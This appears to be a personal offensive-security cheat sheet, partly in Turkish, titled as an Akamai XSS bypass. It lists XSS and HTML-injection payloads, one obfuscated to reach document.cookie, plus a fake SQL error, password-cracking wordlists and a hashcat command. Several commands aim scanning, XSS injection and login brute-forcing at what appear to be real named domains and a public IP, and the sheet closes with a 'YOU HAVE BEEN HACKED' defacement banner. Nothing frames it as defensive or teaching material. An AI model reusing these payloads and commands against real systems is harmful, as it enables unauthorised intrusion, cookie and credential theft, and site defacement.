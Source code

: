 # manuel

# akamai xss bypass 

```
<font color="red">ERROR 1064 (42000): You have an error in your SQL syntax;</font>
```
```
<A HREF="https://www.cia.gov/">Login Here </A>
```
```
<button onClick="alert('xss')">Submit</button>
```
```
"'>"<A HRef=" AutoFocus OnFocus=top//? >
```
```
"'>"<A HRef=" AutoFocus OnFocus=top//?['ale'%2B'rt'](document%2Bcookie)>
```
______________________________
# Offensive payload
```
git clone https://github.com/InfoSecWarrior/Offensive-Payloads.git 
```
_____________________________

### link-gopher : Web sitesindeki linkleri cikartir tek tek elle kopyala yapistir yapmazsin
______________________________

# hashcat icin wordlist
```
https://packetstormsecurity.com/Crackers/wordlists/page1/
```
```
https://labs.nettitude.com/tools/rocktastic/
```
```
https://github.com/J3rryBl4nks/PasswordCrackingMethodology
```
```
hashcat -m 300 -a 0 -o hashcikti3a.txt hashes5k.txt weakpass_3a/weakpass_3a
```


____________________________
```
gobuster dir -w /usr/share/wordlists/dirb/common.txt --url 192.168.56.116
```
```
echo "http://arkas.com.tr" | waybackurls | gf xss | xargs -I {} injectx.py -u {}
```
```
wfuzz -c -z file,/usr/share/seclists/Usernames/top-usernames-shortlist.txt -z file,/usr/share/seclists/Passwords/darkweb2017-top100.txt --hc 200 -d "username=FUZZ&password=FUZ2Z" https://www.kamyonum.com.tr/edit/login.asp 
```
```
nmap -Pn -n --top-ports 5000 13.40.217.134 -sV -sC --version-all --script=vuln --script=auth --script=http-brute,snmp-brute --script=exploit --script=malware -o nmapExploitScan
```

```
<h1><A HREF="https://cia.gov/"><marquee>YOU HAVE BEEN HACKED by DedCrowd</marquee> </A>
```


